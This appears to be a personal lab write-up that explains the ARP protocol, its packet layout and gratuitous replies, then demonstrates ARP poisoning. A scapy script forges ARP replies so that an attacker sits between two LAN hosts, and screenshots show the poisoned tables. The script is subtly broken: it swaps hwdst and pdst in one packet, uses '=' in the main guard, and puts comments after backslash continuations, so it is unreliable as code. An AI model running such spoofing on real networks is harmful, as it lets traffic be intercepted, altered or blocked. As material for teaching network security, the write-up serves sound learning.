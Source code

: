 # ARP

ARP is a layer 2 Protocl that bridges between the layer 2 (Ethernet) and layer 3 (IP) addressing schemes. Since there is no direct forula used for "translation" between MAC and IP addresses ARP is used to fill that gap.

To route packets through a network, both an IP address and a MAC address are needed, an IP address of the final destination of the packet and the MAC address of the next hop in the route to that final destination dictated by the IP address. When one of these factors are unknown ARp is used to solve for it.

The way it works is by sending a request to the entire network in a broadcast asking who is the holder of the IP/MAC address is, so that they can provide the missing address. To further understand let's imagine a scenario:

> An endpoint doesn't know the MAC address of their default gateway to route the message to the internet. That endpoint will send an ARP request to the LAN asking for the MAC of the default gateway.

The protocol's packet format is as follows:

```
 0                   1                   2                   3
 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 1 
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Hardware Type                 | Protocol Type                 |
+---------------+---------------+-------------------------------+
| Hw Addr Len   | Pr Addr Len   | Opcode                        |
+---------------+---------------+-------------------------------+
| Sender Hardware Address (size is written in Hw Addr Len)      |
|                              +--------------------------------|
|______________________________|                                |
| Sender Protocol Address (size is written in Pr Addr Len)      |
+---------------------------------------------------------------+
| Target Hardware Address                                       |
|                              +--------------------------------|
|______________________________|                                |
| Target Protocol Address                                       |
+---------------------------------------------------------------+
```

The `Hardware Type` field is for different types of Layer 2 address formats, together with the `Hardware Address Length` it is used to decide the address in the Sender & Target Hardware address. Same goes for the `Protocol Type` and `Protocol Address Length`.

An Ethernet (Hardware) & IP (Protocol) request can be summed up this way: "Who has [IP/MAC Address]? I am [My IP Address] [My MAC Address]." (In broadcast)
And a reply will be: "I am [IP/MAC Address], my MAC/IP Address is [Address]."

## Gratutious ARP Reply

A gratutious arp is an arp reply that was not prompted by any request, It is usually sent when a machine updates their IP to MAC mapping and wants other machine to update it as well, Or when a new machine joins the network. It may use a gratutious ARP reply to annouce it's existence. A gratutious arp will be sent in broadcast, their Send L2 and L3 address wil use to update the network machine's mac tables, the target L3 and L2 are irrelevant.

There is another use case for the gratutious ARP reply, and that is when **two machines** (Like routers) **use a shared IP** but own **different MAC addresses** Or when they **share both IP and MAC addresses**.

> In the first case (Two routers share an IP address), when one router fails the other router will send a gratutious ARP to let all ther other machines on the network know that the reduntant IP should be mapped to ther other router's MAC address.

> In the second case (Two routers share IP and MAC addresses), when one router fails the other will send a gratutious arp reply to let the switch know to remap the MAC and IP to the (then) inactive port, where the functioning router is connetced. The machines on the network do not update their MAC tables.

# Vulnerability

There is a problem with this system however, ARP responses may be accepted by machines without them ever sending a request. And that may lead to a malicious change in the victim's ARP table. One that let's the attacker become a middlemen! An attacker can then diguise themselves as another machine, and actch all the network traffic directed to that machine. Once they have that network traffic they can alter it, block it or simply just read it.

How I did it, a very simple script. If you want to palce yourself as a middle man in-between two machine's first you have to be on the first Lan. But that's a given, so next you have to make them both think that the other machine is you. And I accomplished that with this simple python script using scapy:

```
# ArpPoisoningAttack.py
# 06.02.2023
# By Daniel

# Imports
from scapy.all import *

# Constants
OPCODE          = 2                     # Reply code

ATTACKER_MAC    = "00:50:56:9a:c6:e5"   # My MAC Address, not used

VICTIM_ONE_MAC  = "00:50:56:9a:b0:60"   # Victim 1's MAC & IP addresses
VICTIM_ONE_IP   = "192.168.100.2"

VICTIM_TWO_MAC  = "00:50:56:9a:30:8a"   # Victim 2's MAC & IP sddresses
VICTIM_TWO_IP   = "192.168.100.1"


def main():
    malicious_arp1 = Ether(dst=VICTIM_TWO_MAC)/\
                     ARP(\
                        op=OPCODE,\                                 # Opcode automatically fills IP and MAC compatible settings for all other fields.
                        psrc=VICTIM_ONE_IP,\                        # When no hardware source is given, it fills the sender's MAC.
                        hwdst=VICTIM_TWO_IP, pdst=VICTIM_TWO_MAC\
                     )

    malicious_arp2 = Ether(dst=VICTIM_ONE_MAC)/\
                     ARP(\
                        op=OPCODE,\
                        psrc=VICTIM_TWO_IP,\                        # This packer will be sent to victim 1, posing as victim 2 with attacker's mac.
                        hwdst=VICTIM_ONE_MAC, pdst=VICTIM_ONE_IP\   # The above packet will be sent to victim 2, posing as victim 1,
                     )
    
    sendp(malicious_arp1)
    sendp(malicious_arp2)                                            # :) You just got poisoned


if (__name__ = "__main__"):
    main()
```

![The packets as seen in wireshark](/Pictures/ARP_Poisoning/Wireshark_View.PNG)

The above script sends a packet to each of the machines posing as the other machine. We can then see the effects on both machine's ARP Tables:

![Machine1, IP: 192.168.100.1](/Pictures/ARP_Poisoning/Victim_1_Poisoned_ARP_Table.PNG)

![Machine2, IP: 192.168.100.2](/Pictures/ARP_Poisoning/Victim_2_Poisoned_ARP_Table.PNG)

```diff
+ (No more fixes needed here)
```

